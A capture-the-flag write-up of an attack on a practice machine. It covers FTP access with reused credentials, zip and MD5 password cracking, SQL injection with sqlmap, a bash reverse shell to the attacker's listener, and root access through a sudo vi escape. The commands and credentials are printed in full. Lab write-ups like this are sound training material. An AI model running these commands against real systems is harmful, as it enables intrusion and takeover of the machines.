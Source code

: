 # Steps

## Enumeration

> FTP, ssh, Apache web server (with auth)

## Exploration

We got FTP credentials from the previous machine:
`ftpuser mc@F1l3ZilL4`, gives us access.

The content is a single zip file, encrypted.

## Password Bruteforcing

### Open The Backup

The content of the zip is most likely the source code of the index page served
by the Apache service.

We can use its `style.css` to check for bruteforce success:

```bash
zip2john -a style.css backups.zip > hash
john --session=zipfile \
  --wordlist=/usr/share/wordlists/passwords/rockyou-75.txt
  hash
```

> 741852963

### Guess The Login Page Credentials

The index.php shows that the password is against a MD5 hash:

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
```
A simple google search (rainbow tables) gives us `qwerty789`.

## SQL Injection

The page is clearly an html view of a SQL table, so let's try SQLi.

```bash
sqlmap -u http://10.10.10.46/dashboard.php?search= \
  --cookie="PHPSESSID=7eb7u026276nlqk0s15vv34bkl" --os-shell
```

> Postgres with multiple vulnerabilities

sqlmap gives us a shell from the get-go so we can step-up with a reverse bash:

```bash
nc -lvnp 4444 -s 10.10.16.59
bash -c 'bash -i >& /dev/tcp/10.10.16.59/4444 0>&1'
```

## Lateral Movement

Exploring, we open `/var/www/html/dashboard.php` and find the credentials for
the user `postgres`:

> `postgres` is allowed to ssh!

## Privilege Escalation

`sudo -l` shows that `postgres` can issue one special command:

> `/bin/vi /etc/postgresql/11/main/pg_hba.conf`.

And in `vi` you can execute any command with `:!command`

> including `:!/bin/bash`!


